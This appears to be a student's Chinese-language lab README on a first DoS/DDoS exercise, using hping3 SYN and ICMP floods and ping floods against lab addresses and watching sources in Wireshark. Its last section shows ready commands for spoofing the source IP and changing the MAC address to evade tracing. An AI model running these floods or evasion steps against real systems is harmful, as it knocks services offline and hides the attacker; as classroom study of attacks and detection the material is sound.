 
## 這是我第一次的DDos實作😃

### 上課教了︰
<code>hping3 -V  -c 100000 -d 100 -S -p 21 --flood 192.168.43.129</code><br/>
<code>hping3 -V  -c 100000 -d 100 -S -p 21 --flood --rand-source 192.168.43.129</code>

### 自主學習︰
#### 問題1  用wireshark監測攻擊方ip
> 使用指令(hping3 -V  -c 100000 -d 100 -S -p 21 --flood 192.168.19.130)攻擊
> 可以看到攻擊來源都是來自192.168.19.128 的ip位置。
![](https://github.com/Superliverbun/Newbie-in-Information-Security/blob/main/DDos-Attack-Practice/Easy_DDos/%E5%9C%96%E7%89%871.png)


#### 問題2  用wireshark監測攻擊方MAC
> 加入rand-sorce指令(hping3 -V  -c 100000 -d 100 -S -p 21 --flood --rand-source 192.168.19.130)後
> 雖然無法直接看出ip位置，但可知 MAC address來自00:0c:29:9a:44:5d
![](https://github.com/Superliverbun/Newbie-in-Information-Security/blob/main/DDos-Attack-Practice/Easy_DDos/%E5%9C%96%E7%89%872.png)

#### 問題3  使用不同的指令或參數進行Dos或DDos攻擊，並且認出攻擊來源
##### 方法一
> 使用指令 ping -f -l 65500 190.168.50.61
> 他會向目標計算機發送大量的 ICMP 封包，將其 CPU 負載推至極限。
![](https://github.com/Superliverbun/Newbie-in-Information-Security/blob/main/DDos-Attack-Practice/Easy_DDos/%E5%9C%96%E7%89%874.png)

>很明顯的攻擊來源就是192.168.50.171
![](https://github.com/Superliverbun/Newbie-in-Information-Security/blob/main/DDos-Attack-Practice/Easy_DDos/%E5%9C%96%E7%89%873.png)


##### 方法二
> 使用指令 hping3 --icmp --rand-source --flood -d 1400 190.168.50.61	
> 發送大量的封包，讓服務器癱瘓
![](https://github.com/Superliverbun/Newbie-in-Information-Security/blob/main/DDos-Attack-Practice/Easy_DDos/%E5%9C%96%E7%89%875.png)



#### 問題4  改善hping3並找出攻擊來源
##### 方法一
> 用指令 hping3 -a 192.168.1.100 -V -c 100000 -d 100 -S -p 21 --flood 190.168.50.61
> 用-a 偽造攻擊者ip 使對方無法透過ip追蹤
![](https://github.com/Superliverbun/Newbie-in-Information-Security/blob/main/DDos-Attack-Practice/Easy_DDos/%E5%9C%96%E7%89%876.png)

##### 方法二 
> 用指令 macchanger -m AA:AA:AA:AA:AA:AA eth0更改MAC地址
![](https://github.com/Superliverbun/Newbie-in-Information-Security/blob/main/DDos-Attack-Practice/Easy_DDos/%E5%9C%96%E7%89%877.png)

> 再使用 hping3 -a 192.168.1.100 -V -c 100000 -d 100 -S -p 21 --flood 190.168.50.61
> 讓對方無法透過ip和MAC追蹤
![](https://github.com/Superliverbun/Newbie-in-Information-Security/blob/main/DDos-Attack-Practice/Easy_DDos/%E5%9C%96%E7%89%878.png)




